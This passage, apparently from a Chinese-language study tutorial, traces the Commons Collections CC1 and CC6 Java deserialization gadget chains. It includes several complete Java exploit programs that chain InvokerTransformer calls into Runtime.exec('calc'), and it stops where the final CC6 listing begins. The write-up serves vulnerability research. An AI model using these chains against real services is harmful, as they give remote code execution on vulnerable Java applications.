
原因是因为这里会先从map中获取key，然后会从注解中获取key，这里的key就是我们往hashmap里put的字符串"key"

```
hashMap.put("key","value");
```

但是注解里只有value没有key成员方法，所以就无法通过

这里我们改一下就行

```
hashMap.put("value","aaa");
```

再试一次发现成功进入的第一个if内



再看第二个if

检查 `value` 是否是 `ExceptionProxy` 类型或其子类

检查 `value` 是否是 `memberType` 类型的实例

value是我们put进map的字符串"aaa"，然后第二个if也是能顺利通过的

成功进入到了 `setValue` 方法当中，但是还是无法弹出计算器，因为`setValue()` 处中的参数并不可控，而是指定了 `AnnotationTypeMismatchExceptionProxy` 类，是无法进行命令执行的。

调试发现能到checkSetValue方法，但是这里的value不是Runtime.class，而是`AnnotationTypeMismatchExceptionProxy` 类

---

### 3、解决setValue方法参数不可控问题

一个能够解决 `setValue` 可控参数的类  `ConstantTransformer`。

跟进到这个类



- 构造方法：传入的任何对象都放在 `iConstant` 中
- `transform()` 方法：无论传入什么，都返回 `iConstant`，这就类似于一个常量了。

所以我们把这个类添加到transformers数组也就是递归调用的第一层

```
          Transformer[] transformers = new Transformer[]{
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                  new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
                  new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
          };
```

这样在执行到checkSetValue时，就会先执行

```
ConstantTransformer.transform( new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(annotationType.members().get(name) ) )
```

这里完全不用管，无论 `transform()` 方法的参数是什么对象，都会返回Runtime.class，然后成功执行后续的链子

### 最终EXP

```
package org.mixbp;

import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.Transformer;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{

          Transformer[] transformers = new Transformer[]{
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                  new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
                  new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
          };

         ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);


         HashMap<Object,Object> hashMap = new HashMap<>();
         hashMap.put("value","aaa");

         Map<Object,Object> transformedmap = TransformedMap.decorate(hashMap, null, chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor aihConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        aihConstructor.setAccessible(true);
        Object o = aihConstructor.newInstance(Target.class,transformedmap);
        serialize(o);
        unserialize("ser.bin");

    }

    public static void serialize(Object o) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

---

## 调用链&辅助链整理

用到的利用链和工具链

```
利用链：
InvokerTransformer#transform
    TransformedMap#checkSetValue
        AbstractInputCheckedMapDecorator#setValue
            AnnotationInvocationHandler#readObject
使用到的工具类辅助利用链：
ConstantTransformer
ChainedTransformer
HashMap
```

---

# Commons-Collections-CC1 链补充-正版CC1链

## 1、寻找链尾的危险方法

这条链子的漏洞点还是`InvokerTransformer`

依然是在`InvokerTransformer`下的transform方法，进行find usages

正版的CC1链用的是LazyMap链



跟进发现LazyMap的get方法中调用了transform，并且get方法的作用域是public

```
    public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```

## 2、追链子

先看看这里的factory是什么

```
Object value = factory.transform(key);
```



可以看到这里factory是一个Transformer对象

并且这里还有跟上一版CC1链子中`TransformMap`里相同的decorate方法

然后看一看这个`LazyMap`类的构造函数，发现作用域是protected，无法直接获取，`decorate` 方法里面能够 new 一个 `LazyMap` 对象

暂时写一个EXP证明这条链子可以进行

```
package org.mixbp;

import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.Transformer;
import sun.reflect.ConstructorAccessor;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{

    Runtime runtime = Runtime.getRuntime();
    InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
    HashMap<Object,Object> hashMap = new HashMap<>();
    Map decorateMap = (LazyMap) LazyMap.decorate(hashMap,invokerTransformer);

    Class<LazyMap> lazyMapClass = LazyMap.class;
    Method LazyGetMethod = lazyMapClass.getDeclaredMethod("get", Object.class);
    LazyGetMethod.setAccessible(true);
    LazyGetMethod.invoke(decorateMap,runtime);


    }

    public static void serialize(Object o) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

可以执行，目前这条链没有问题

继续向前追，最终要找到入口类的`readObject`方法

找一下哪里调用了get方法。最终在 `AnnotationInvocationHandler.invoke()` 方法中找到了有一个地方调用了 `get()` 方法。



并且这个类里还有`readObject`方法，可以作为我们的入口类。

## 3、EXP编写

这里需要触发`invoke`方法，可以使用动态代理，一个类被动态代理了之后，想要通过代理调用这个类的方法，就一定会调用 `invoke()`方法

然后在readObject方法里

```
for (Map.Entry<String, Object> memberValue : memberValues.entrySet())
```

在这里调用了 `entrySet()` 方法，也就是说，如果我们将 `memberValues` 的值改为代理对象，当调用代理对象的方法，那么就会跳到执行 `invoke()` 方法，最终完成整条链子的调用。

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke"
                        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };


        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationHandlerConstructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Override.class,decorateMap);

        Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, invocationHandler);
        InvocationHandler invocationHandler1 = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Override.class,proxyMap);

        serialize(invocationHandler1);
        unserialize("ser.bin");


    }

    public static void serialize(Object o) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

成功执行

注意这里的`invocationHandler`和`invocationHandler1`的区别

### 核心区别

| 特性           | `handler`                | `handler1`                |
| :------------- | :----------------------- | :------------------------ |
| **包装的对象** | `lazyMap` (普通 Map)     | `proxyMap` (动态代理对象) |
| **角色**       | 被代理对象的处理器       | 入口对象                  |
| **触发时机**   | 当代理对象的方法被调用时 | 反序列化时直接触发        |
| **序列化**     | 不会被直接序列化         | **会被序列化**            |
| **作用**       | 执行 Transformer 链      | 触发 handler 的调用       |

---

## 调用链&辅助链整理

```
调用链 
	InvokerTransformer#transform
		LazyMap#get
			AnnotationInvocationHandler#readObject
			
辅助链
ChainedTransformer
ConstantTransformer
HashMap
Map(Proxy)#entrySet
```

---

# Commons-Collections-CC6链

CC6链的前半段链子和CC1-LazyMap是一样的，也是InvokerTransformer到LazyMap



所以直接跳到LazyMap下的get方法，找其他的调用get()方法的地方

## 1、寻找危险方法

```
LazyMap.get()#factory.transform() -> InvokerTransformer.transform()
```

## 2、找链子

这里依然是find usages，但是发现结果很多，所以直接根据 ysoSerial 官方的链子

找到`TiedMapEntry` 类中的 `getValue()` 方法调用了`get()` 方法。



用 `TiedMapEntry` 写一个 EXP，确保这条链子能用

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{

        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object,Object> hashMap = new HashMap<>();
        Map decoratelazyMap = (LazyMap) LazyMap.decorate(hashMap,invokerTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratelazyMap,runtime);
        tiedMapEntry.getValue();


    }

}
```

然后引入`ChainedTransformer`辅助链

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.ws.spi.Invoker;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);


        HashMap<Object,Object> hashMap = new HashMap<>();
        Map decoratelazyMap = (LazyMap) LazyMap.decorate(hashMap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratelazyMap,chainedTransformer);
        tiedMapEntry.getValue();


    }


}
```

直接 new 一个 `TiedMapEntry` 对象，并调用它的 `getValue()` 方法即可，它的 `getValue` 方法会去调用 `map.get(key)` 方法。

然后去往上看看谁调用了getValue()方法，由于getValue这个方法名比较常见，所以我们可以现在同一类下查找，找不到再去查调用

寻找到同一类下的 `hashCode()` 方法调用了 `getValue()` 方法。



找到hashCode了，一般的java反序列化只要我们追到hashCode基本上就是稳了。

---

## 3、找入口类&整合链子

查找哪里调用了hashCode()方法，直接用固定思路就行

因为在 Java 反序列化当中，找到 `hashCode()` 之后的链子用的基本都是同一条。

```
xxx.readObject()
	HashMap.put() --自动调用-->   HashMap.hash()
		后续利用链.hashCode()
```

HashMap是一个非常完美的入口类，完整HashMap利用

```
HashMap.readObject()  (第 1188-1198 行)
    ↓
putVal(hash(key), ...)  (第 1198 行)
    ↓
hash(key)  (第 1198 行参数)
    ↓
key.hashCode()  (HashMap.java 第 339 行)
    ↓
如果 key 是 TiedMapEntry → TiedMapEntry.hashCode()
    ↓
getValue() → map.get(key)
    ↓
LazyMap.get() → factory.transform()
    ↓
Runtime.exec("calc")
```

先写个初步的EXP

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.ws.spi.Invoker;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };


        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);


        HashMap<Object,Object> hashMap = new HashMap<>();
        Map decoratelazyMap = (LazyMap) LazyMap.decorate(hashMap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratelazyMap,"key");
        HashMap<Object,Object> expmap = new HashMap<>();
        expmap.put(tiedMapEntry,"value");


    }
    
        public static void serialize(Object o) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }


}
```

## 4、解决序列化时就执行命令的问题

然后我们发现我们的EXP在序列化的时候就能够弹出计算器，这其实和URLDNS里的情况一样，因为在执行put的时候就会触发一次hashCode

所以我们要先不让其进行命令执行，在反序列化的时候再命令执行

我可以通过修改`Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);`这里的`chainedTransformer`来实现

也就是修改LazyMap的成员变量`factory`



由于这个成员变量的作用域是protected，所以我们要通过反射修改

我们之前传进去的参数是 `chainedTransformer`，我们在序列化的时候传进去一个没用的东西，再在反序列化的时候通过反射，将其修改回 `chainedTransformer`。相关的属性值在 LazyMap 当中为 `factory`

```
Map decoratelazyMap = LazyMap.decorate(hashMap, chainedTransformer);
TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratelazyMap, "aaa");

-----------------> 变成

Map decoratelazyMap = LazyMap.decorate(hashMap, new ConstantTransformer(1));
TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratelazyMap,"aaa");

在执行 put 方法之后通过反射修改 Transformer 的 factory 值

// 某伪代码块
Class<LazyMap> lazyMapClass = LazyMap.class;  
Field factoryField = lazyMapClass.getDeclaredField("factory");  
factoryField.setAccessible(true);  
factoryField.set(lazyMapClass, chainedTransformer);
```

修改之后的EXP：

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.ws.spi.Invoker;
import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };


        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);


        HashMap<Object,Object> hashMap = new HashMap<>();
        Map decoratelazyMap = (LazyMap) LazyMap.decorate(hashMap,new ConstantTransformer(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratelazyMap,"aaa");

        HashMap<Object,Object> expmap = new HashMap<>();
        expmap.put(tiedMapEntry,"bbb");

        Class c = LazyMap.class;
        Field factoryField = LazyMap.class.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(decoratelazyMap,chainedTransformer);


        serialize(expmap);
        unserialize("ser.bin");

    }

    public static void serialize(Object o) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

---

## 5、解决HashMap中被放入key的问题

但是我们改完之后发现现在序列化和反序列化都不弹计算器了，调试一下进去看看，看看put的时候发生了什么



可以看到在经过一系列调用之后

```
HashMap#put()->HashMap#hash()->TiedMapEntry#hashCode()->TiedMapEntry#getValue()->LazyMap#get()
```

进入到了LazyMap的get方法内，这里因为我们当时传入的是一个空的HashMap

```
HashMap<Object,Object> hashMap = new HashMap<>();
Map decoratelazyMap = (LazyMap) LazyMap.decorate(hashMap,new ConstantTransformer(1));
```

所以这里的if语句是肯定能进去的



然后这里就把key放进去了

所以就导致我们反序列化的时候无法进入到if语句中，因为`if(map.containsKey(key) == false)`过不了

解决办法，在put()方法之后将key给remove即可

```
hashMap.remove("aaa");
```

## 完整EXP

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.ws.spi.Invoker;
import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;


